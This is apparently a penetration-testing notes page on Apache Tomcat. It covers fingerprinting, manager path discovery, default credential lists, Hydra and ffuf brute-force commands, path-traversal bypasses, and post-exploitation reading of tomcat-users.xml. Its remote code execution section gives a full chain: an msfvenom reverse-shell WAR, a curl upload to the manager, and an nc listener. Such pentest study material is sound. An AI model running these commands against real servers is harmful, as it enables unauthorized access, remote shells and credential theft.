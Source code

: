 # Apache Tomcat

## Theory

Apache Tomcat (called "Tomcat" for short) is a free and open-source implementation of the Jakarta Servlet, Jakarta Expression Language, and WebSocket technologies. It provides a "pure Java" HTTP web server environment in which Java code can also run.

## Practice

#### Enumeration

{% tabs %}
{% tab title="Fingerprinting" %}
We can attempt to trigger an error on the website as a method of fingerprinting. If the error is similar as the one below, this indicates that the website is running Tomcat.

```bash
$ curl http://target.com/DoesNotExist
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Version Identification" %}
To find the version of Apache Tomcat, a simple command can be executed:

```bash
curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat 
```

This will search for the term "Tomcat" in the documentation index page, revealing the version in the title tag of the HTML response.
{% endtab %}

{% tab title="Manager Files Location" %}
Identifying the exact locations of **`/manager`** and **`/host-manager`** directories is crucial as their names might be altered. A brute-force search is recommended to locate these pages.

```bash
ffuf -u https://example.com/FUZZ -w directories.txt
ffuf -u https://example.com/host-manager/FUZZ -w 
ffuf -u https://example.com/manager/FUZZ -w directories.txt
```

Below are common directories for Apache Tomcat.

```
/examples
/examples/jsp/cal/login.html
/examples/jsp/error/error.html
/examples/jsp/snp/snoop.jsp
/examples/servlet/HelloWorldEXample
/examples/servlet/JndiServlet
/examples/servlet/RequestHeaderExample
/examples/servlet/RequestInfoExample
/examples/servlet/RequestParamExample

/host-manager

/manager
/manager/jmxproxy/?qry=STUFF
/manager/status
/manager/status/all
# We can execute commands in /manager/text/ directory
/manager/text/{command}?{parameters}
/manager/text/deploy?path=/foo
/manager/text/list
/manager/text/resources
/manager/text/serverinfo
/manager/text/vminfo
```
{% endtab %}

{% tab title="Username Enumeration" %}
&#x20;It's possible to enumerate usernames through metasploit:

{% hint style="warning" %}
It only works for Tomcat versions **older than 6**
{% endhint %}

```bash
msf> use auxiliary/scanner/http/tomcat_enum
msf> set TARGETURI /manager  # depending on the website
```
{% endtab %}
{% endtabs %}

#### Credentials

{% tabs %}
{% tab title="Default Credentials" %}
The **`/manager/html`** directory is particularly sensitive as it allows the upload and deployment of WAR files, which can lead to code execution. This directory is protected by basic HTTP authentication, with common credentials being:

```
admin:(empty)
admin:admin
admin:password
admin:password1
admin:Password1
admin:tomcat
manager:manager
root:changethis
root:password
root:password1
root:root
root:r00t
root:toor
tomcat:(empty)
tomcat:admin
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:tomcat
```
{% endtab %}

{% tab title="Brute Force Attack" %}
To attempt a brute force attack on the manager directory, we may use one of the following commands:

```bash
# FFUF
ffuf -u https://tomcat:FUZZ@example.com/manager -w passwords.txt -fs 140

# Hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f <TARGET> http-get /manager/html
```
{% endtab %}
{% endtabs %}

#### Common Vulnerabilities <a href="#common-vulnerabilities" id="common-vulnerabilities"></a>

{% tabs %}
{% tab title="Path Traversal Exploit" %}
In some [**vulnerable configurations of Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`
{% endtab %}

{% tab title="Password Backtrace Disclosure" %}
Accessing `/auth.jsp` may reveal the password in a backtrace under fortunate circumstances.
{% endtab %}

{% tab title="Double URL Encoding" %}
The CVE-2007-1860 vulnerability in `mod_jk` allows for double URL encoding path traversal, enabling unauthorized access to the management interface via a specially crafted URL.

In order to access to the management web of the Tomcat go to: `pathTomcat/%252E%252E/manager/html`
{% endtab %}

{% tab title="/examples" %}
Apache Tomcat versions 4.x to 7.x include example scripts that are susceptible to information disclosure and cross-site scripting (XSS) attacks. These scripts, listed comprehensively, should be checked for unauthorized access and potential exploitation. Find [more info here](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp
{% endtab %}
{% endtabs %}

#### Remote Code Execution (RCE)

{% tabs %}
{% tab title="Uploading WAR file " %}
If you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file (execute code)**.

{% hint style="warning" %}
You will only be able to deploy a WAR if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**).
{% endhint %}

First create a war file using Msfvenom.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<local-ip> LPORT=80 -f war -o shell.war
```

Then upload this file.

```bash
curl --upload-file shell.war -u 'tomcat:password' "https://example.com/manager/text/deploy?path=/shell"
```

Start a listener in local machine.

```bash
sudo rlwrap nc -lvnp 80
```

Now access to `https://example.com/shell`. We should get a shell.
{% endtab %}
{% endtabs %}

#### Post-Exploitation

{% tabs %}
{% tab title="Crential Access" %}
If we are in the target system, we can retrieve information about credentials.

```bash
find / -name "tomcat-users.xml" 2>/dev/null
cat tomcat-users.xml
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/" %}
